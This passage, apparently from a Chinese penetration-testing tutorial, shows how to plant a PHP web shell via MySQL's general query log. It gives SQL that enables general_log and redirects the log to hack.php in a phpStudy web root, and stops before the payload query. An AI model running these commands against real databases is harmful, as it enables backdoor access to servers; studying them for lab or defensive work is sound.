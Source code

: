 尝试使用全局日志写入shell，查看全局变量`general_log`：

```sql
SHOW GLOBAL VARIABLES LIKE '%general_%'
```

![image-20240121175055101](assets/image-20240121175055101.png)

开启全局日志并修改日志保存位置为`C:/phpStudy/WWW/hack.php`

```sql
set global general_log=on;
set global general_log_file='C:/phpStudy/WWW/hack.php';
```
